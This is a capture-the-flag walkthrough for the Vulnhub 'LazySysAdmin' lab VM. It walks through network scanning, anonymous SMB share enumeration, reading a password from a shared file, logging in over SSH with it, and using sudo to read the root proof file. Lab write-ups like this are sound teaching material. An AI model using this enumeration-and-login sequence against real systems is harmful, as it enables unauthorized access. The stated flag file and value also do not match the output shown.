 # LazySysAdmin Vulnhub Writeup

Link:           [LazySysAdmin by Togie Mcdogie](https://www.vulnhub.com/entry/lazysysadmin-1,205/)

* Details:        Boot2Root Virtual Machine
* Author Rating:  Beginner - Intermediate
* Flag Count:     1
* Flag Location:  /root/flag.txt
* Flag Contents:  flag{c89031ac1b40954bb9a0589adcb6d174}

## Runsheet

Located the Virtual Machine's IP;

```bash
arp-scan 192.168.146.0/24
```

Nmap Host to identify open ports on the machine and attempt to identify the host operating system;

```bash
nmap -sV -O 192.168.146.129
```

```text
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
6667/tcp open  irc
```

From this, we know we have some things to check out, the web was a bust, but we checked the smb ports `139` and `445` using enum4linux, using this command;

```bash
enum4linux 192.168.146.129
```

What was of interest to us is the following chunks of info;

```text
 ========================================
|    Session Check on 192.168.146.129    |
 ========================================
[+] Server 192.168.146.129 allows sessions using username '', password ''
```

```text
 ============================================
|    Share Enumeration on 192.168.146.129    |
 ============================================

    Sharename       Type      Comment
    ---------       ----      -------
    print$          Disk      Printer Drivers
    share$          Disk      Sumshare
    IPC$            IPC       IPC Service (Web server)
```

```text
[+] Attempting to map shares on 192.168.146.129
//192.168.146.129/print$    Mapping: DENIED, Listing: N/A
//192.168.146.129/share$    Mapping: OK, Listing: OK
//192.168.146.129/IPC$  [E] Can't understand response:
```

These give us some cool pieces of infomation, 1; we can access the SMB share with a null username and password, we have a share called `share` and we can map and list it without authentication. Now lets try connecting to it and see what we can do.

```bash
smbclient \\\\192.168.146.129\\share$ -N -U
```

Doing this gives us access to the directory, and we found a file called `deets.txt`, which tells us there is a password that is `12345` for an account. Going back to the old enum4linux, if we check the output log, we have a enumiration for the users in that machine, which shows us the following;

```text
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\togie (Local User)
```

Since we have this user as a Unix User, we can assume it is the local user account, so if we attempt to SSH into the user account on Port 22 using the credentials `togie/12345`, we are greeted with shell.

Now if we check our permissions using `sudo -l`, and it turns out our user has sudo privlages straight away, no requirement to get root. So using `sudo cat /root/proof.txt` we get our flag and complete the CTF.

```text
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
```